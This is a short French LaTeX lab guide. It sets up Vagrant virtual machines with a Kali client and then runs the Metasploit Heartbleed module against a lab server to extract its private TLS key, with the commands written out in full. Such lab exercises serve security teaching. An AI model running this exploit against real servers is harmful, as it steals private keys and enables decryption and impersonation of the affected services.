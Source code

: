 \documentclass[a4paper,oneside,1pt]{article}
\begin{document}
Pour lancer les machines, dirigez vous dans le dossier "experimentation" puis lancez la commande \texttt{vagrant up}. Cette commande va installer les machines.


Une fois installé, lancer la commande "vagrant ssh client" pour connecter à la machine cliente (Kali).
 
Maintenant lancez les commandes :

\begin{verbatim}
sudo apt-get update
sudo apt-get upgrade #l'upgrade est très long, faites entrer a chaque interaction

sudo msfupdate
sudo msfconsole
\end{verbatim}

puis dans la console:
\begin{verbatim}
use auxiliary/scanner/ssl/openssl\_heartbleed
set RHOSTS <votreip> 
set RPORT 13443
set verbose true
run -a KEYS
\end{verbatim}

On voit que cet exploit nous permet de récupérer automatiquement et particulièrement facilement la clé privée du serveur.



\appendix

\section{Glossaire}

vagrant : Vagrant est un logiciel libre et open-source pour la création et la configuration des environnements de développement virtuel. 


\section{Références}

\href{http://heartbleed.com/}{http://heartbleed.com/}

\href{https://fr.wikipedia.org/wiki/Heartbleed}{https://fr.wikipedia.org/wiki/Heartbleed}

\href{https://sathisharthars.wordpress.com/2014/06/10/exploit-heartbleed-openssl-vulnerability-using-kali-linux/}{https://sathisharthars.wordpress.com/2014/06/10/exploit-heartbleed-openssl-vulnerability-using-kali-linux/}





\end{document}
